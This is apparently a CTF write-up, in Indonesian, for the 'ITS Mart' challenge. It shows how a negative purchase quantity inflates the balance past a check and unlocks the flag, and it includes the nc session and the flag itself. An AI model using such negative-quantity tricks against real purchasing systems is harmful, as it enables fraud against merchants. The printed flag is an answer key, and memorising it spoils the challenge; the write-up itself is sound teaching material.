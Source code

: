 # ITS Mart
## Description

katanya ITS baru buka minimarket baru ya?
coba deh belanja, tau tau dapat hadiah nanti xixixixi

**author: HyggeHalcyon**

`nc 34.101.202.34 10002`

[itsmart.c](http://34.101.202.34/files/a151e0481e905cdf15d71b6bd01b8590/itsmart.c?token=eyJ1c2VyX2lkIjo2LCJ0ZWFtX2lkIjpudWxsLCJmaWxlX2lkIjoxNH0.ZPhWHA.JhCaP-CWh9oCiO_dJzrMpGtx48A)

## Approach

Diberikan suatu program C yang bernama `itsmart.c`. Saat membuka file tersebut, ditemukan fungsi sebagai dibawah
![image](https://github.com/miraicantsleep/HCS-ctf-2023/assets/29684003/5f126d52-be63-4a00-89cb-846e3ad61941)

```
      case 69:
        if(uang <= 999999999){
          puts("mau flag? harus kaya dlu broh\n");
        } else{
          win();
          exit(1);
        }
```

Jika diberikan input `69`, program akan mengeluarkan output
![image](https://github.com/miraicantsleep/HCS-ctf-2023/assets/29684003/77ece770-dc27-4ddc-a88e-bf49cc7e2980)

Maka saya memberikan input `-999999999` saat program bertanya `mau beli berapa?` agar uang bertambah banyak.
```
┌──(linux㉿kali)-[~]
└─$ nc 34.101.202.34 10002
selamat datang di ITS Mart!!!

uang: Rp.1337
mau beli apa gan?
(1) ayank Rp.99
(2) circle kampus Rp.1
(3) IPK 4.0 Rp.666
2
mau beli berapa?
-999999999
berhasil membeli circle kampus

loh kok gini ya rek?
uang: Rp.1000001336
mau beli apa gan?
(1) ayank Rp.99
(2) circle kampus Rp.1
(3) IPK 4.0 Rp.666
69
HCS{m1nus_dikit_g4_ngaruh}
```

Maka flag akan ter-output.

## Flag
```
HCS{m1nus_dikit_g4_ngaruh}
```
